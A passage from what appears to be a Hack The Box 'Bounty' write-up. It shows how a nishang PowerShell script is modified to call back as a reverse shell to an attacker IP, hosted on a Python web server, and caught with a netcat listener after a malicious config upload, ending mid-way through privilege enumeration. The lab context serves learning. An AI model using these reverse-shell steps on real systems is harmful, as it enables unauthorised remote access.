 In the nishang `Invoke-PowerShellTcp.ps1` file we should append the following line on the last row.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.44 -Port 4444
```

![Image](/assets/img/WriteUp/HTB/Bounty/Pasted image 20230414104529.png){: width="700" height="400" }

We should start a python webserver to host the nishang powershell script.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Bounty]
└─$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Next we should start our netcat listener.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Bounty]
└─$ rlwrap nc -lvp 4444                                                                                           
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

Let's upload the malicous config file to the webserver.
![Image](/assets/img/WriteUp/HTB/Bounty/Pasted image 20230413231258.png){: width="700" height="400" }

The upload did work! Now  we should 
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Bounty]
└─$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.199.36 - - [14/Apr/2023 10:46:36] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -

```

## Initial access
The `Invoke-PowerShellTcp.ps1` file has been downloaded, so we should check our netcat listener to see if we have a connection from our target.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Bounty]
└─$ rlwrap nc -lvp 4444                                                                                           
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.199.36.
Ncat: Connection from 10.129.199.36:49164.
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>

```
It looks like we have a connection with our target. Let's check who we are and what privileges we have.
```
PS C:\windows\system32\inetsrv>whoami
bounty\merlin
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
```
